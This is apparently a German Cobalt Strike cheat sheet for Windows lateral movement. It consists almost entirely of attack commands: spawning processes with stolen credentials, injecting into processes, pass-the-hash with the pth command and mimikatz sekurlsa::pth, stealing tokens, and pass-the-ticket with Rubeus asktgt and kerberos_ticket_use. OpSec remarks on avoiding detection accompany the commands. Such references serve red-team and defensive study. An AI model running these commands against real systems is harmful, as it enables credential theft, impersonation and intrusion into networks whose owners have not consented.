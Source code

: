 ## Prozess mit neuen Anmeldeinformationen starten
spawnas [domäne\benutzername] [passwort] [listener] # Führen Sie es von einem Verzeichnis mit Lesezugriff aus, z.B. cd C:\
## Wie make_token erzeugt dies auch das Windows-Ereignis 4624: Ein Konto wurde erfolgreich angemeldet, jedoch mit einem Anmeldetyp von 2 (LOGON32_LOGON_INTERACTIVE). Es werden der aufrufende Benutzer (TargetUserName) und der imitierte Benutzer (TargetOutboundUserName) angegeben.

## In Prozess injizieren
inject [pid] [x64|x86] [listener]
## Aus OpSec-Sicht: Führen Sie keine plattformübergreifende Injektion durch, es sei denn, es ist wirklich erforderlich (z.B. x86 -> x64 oder x64 -> x86).

## Pass the Hash
## Dieser Änderungsprozess erfordert das Patchen des LSASS-Speichers, was eine riskante Aktion ist, Administratorrechte erfordert und nicht sehr praktikabel ist, wenn Protected Process Light (PPL) aktiviert ist.
pth [pid] [arch] [DOMAIN\benutzer] [NTLM-Hash]
pth [DOMAIN\benutzer] [NTLM-Hash]

## Pass the Hash über mimikatz
mimikatz sekurlsa::pth /user:&#x3C;benutzername> /domain:&#x3C;DOMÄNE> /ntlm:&#x3C;NTLM-HASH> /run:"powershell -w hidden"
## Ohne /run startet mimikatz eine cmd.exe. Wenn Sie als Benutzer mit Desktop ausgeführt werden, sehen Sie die Shell (wenn Sie als SYSTEM ausgeführt werden, sind Sie bereit).
steal_token &#x3C;pid> # Token von von mimikatz erstelltem Prozess stehlen

## Pass the Ticket
## Ticket anfordern
execute-assembly C:\pfad\Rubeus.exe asktgt /user:&#x3C;benutzername> /domain:&#x3C;domäne> /aes256:&#x3C;aes-schlüssel> /nowrap /opsec
## Eine neue Anmeldesitzung erstellen, um sie mit dem neuen Ticket zu verwenden (um das kompromittierte Ticket nicht zu überschreiben)
make_token &#x3C;domäne>\&#x3C;benutzername> DummyPass
## Das Ticket in der Angreifermaschine schreiben und laden
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi
